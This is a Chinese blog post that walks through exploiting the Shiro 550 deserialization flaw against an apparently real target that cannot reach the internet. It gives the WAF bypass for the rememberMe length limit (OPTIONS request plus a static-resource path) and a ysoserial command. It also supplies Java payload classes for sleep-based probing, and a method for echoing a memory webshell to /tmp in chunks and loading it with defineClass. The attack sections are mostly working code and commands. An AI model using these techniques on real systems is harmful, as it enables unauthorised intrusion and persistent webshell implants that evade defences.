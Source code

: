 #  记一次 Shiro 的实战利用

原创 pen4uin [ pen4uin ](javascript:void\(0\);)

**pen4uin** ![]()

微信号 gh_ffc9f5385230

功能介绍 仅供参考。

____

___发表于_

收录于合集 #漏洞利用 3个

### 0x01 前言

本文记录一次攻防中比较苛刻场景下的 shiro 550 漏洞的不出网利用。

### 0x02 简介

主要内容：

  * 绕过 WAF  对 rememberMe 长度的限制
  * 加载本地字节码 defineClass 注入内存马

### 0x03 漏洞验证

1、验证后端反序列化功能是否正常

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175128.png)

  

（被拦截）

根据经验猜测大概率是限制了 rememberMe 的长度

2、删减到 300 左右，正常放行

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175129.png)

  

3、绕过 waf  对 rememberMe 长度的限制

OPTIONS 请求方式 + 静态资源 uri 路径

  * 

    
    
    OPTIONS /app/login;index.css

成功将 rememberMe 的长度提升到 7000 左右

但超过 7000 依然会被拦截，没法再绕

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175130.png)

  

4、验证后端反序列化功能是否正常

反序列化炸弹

  * 

    
    
    java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByBomb -a "java.lang.String|25"

延时成功，说明后端功能正常

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175131.png)

  

5、探测目标是否出网

通过 urldns/httplog/jrmp 的方式探测，发现目标不出网

6、探测反序列化链

通过延时探测反序列化链

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175132.png)

  

说明目标存在 gadget: CommonsCollections10

### 0x04 漏洞利用

7、梳理信息与思路

请求方式：OPTIONS

  * 分离payload+动态类加载的姿势失效（OPTIONS 无法传递参数）
  * 修改 maxHeaderSize 没用（nignx 反代）

目标不出网

  * 远程加载字节码的姿势失效

利用思路

  * 命令执行/代码执行 写文件马
  * 代码执行 注内存马

8、判断目标操作系统

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public class Payload extends AbstractTranslet {    public void transform(DOM var1, SerializationHandler[] var2) {}    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) {}    static {        try {            String osType = System.getProperty("os.name");            if (osType != null && osType.toLowerCase().contains("win")) {                Thread.sleep(3000);            }else {                Thread.sleep(5000);            }        } catch (Throwable var16) {        }    }}

延时6s，说明目标操作系统极大概率为 *nix

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175133.png)

9、尝试写文件马

通过 find 静态资源文件获取web路径并写入文件马，失败

猜测原因

  * 当前用户权限问题（不是root）
  * 当前应用部署问题（以springboot fatjar的方式部署）

10、排查写入失败原因

在 home 目录写文件

  * 

    
    
    echo 123321 > /home/tmp.txt

判断文件是否写入成功

  *   *   *   *   *   * 

    
    
    File file = new File("/home/tmp.txt");if (file.exists()) {    Thread.sleep(2000);} else {    Thread.sleep(5000);}

延时6s，说明当前权限足够，则很有可能是应用部署层面导致的，文件马的路到此为止，尝试内存马

11、尝试注入内存马

将字节码写到临时目录，然后从目标本地读取文件加载字节码

由于 paylaod 长度限制，内存马需要分散写入，经过测试发现每次最多能写长度为 1600 左右

1）使用 java-memshell-generator 辅助模块延时确认目标中间件为 tomcat

  *   *   *   *   *   *   * 

    
    
    detect_way=Sleepserver_type=Tomcatdnslog_domain=xxx.dnslog.cnhttplog_url=http://xxx.httplog.cnsleep_seconds=5gadget_type=JDK_AbstractTransletformat_type=CLASS

2）拆分内存马，限制每组长度为 1600

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public static void main(String[] args) {    String input = "[payload]";int groupSize = 1600;int length = input.length();int startIndex = 0;int endIndex = Math.min(length, groupSize);int a = 1;while (startIndex < length) {        String group = input.substring(startIndex, endIndex);        System.out.println(a + ":" + group);        startIndex = endIndex;        endIndex = Math.min(startIndex + groupSize, length);        a++;    }}  
    

拆分成了 14 组

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175134.png)

3）写入内存马的字节码

  *   *   *   * 

    
    
    // 第1次echo [payload01] > /tmp/log.txt// 第2 - 14次 使用 '>>' 追加文件内容echo [payload14] >> /tmp/log.txt

4）读取字节码进行 defineClass

  * 注意换行符问题

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();// 读取文件byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/log.txt"));String fileContent = new String(fileBytes, StandardCharsets.UTF_8);// 删除多余的换行符String base64Str = fileContent.replace("\r","").replace("\n","");byte[] clazzByte = (new BASE64Decoder()).decodeBuffer(base64Str);Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);defineClass.setAccessible(true);Class clazz = (Class)defineClass.invoke(classLoader, clazzByte, 0, clazzByte.length);clazz.newInstance();  
    

5）成功注入内存马

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175135.png)

### 0x05  总结

目标虽然成功拿下了，但这是一种不太优雅的利用方式，不管是落地文件还是追加文件内容的选择都有可能会遇到更苛刻的挑战，比如文件无法落地、有负载均衡等。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

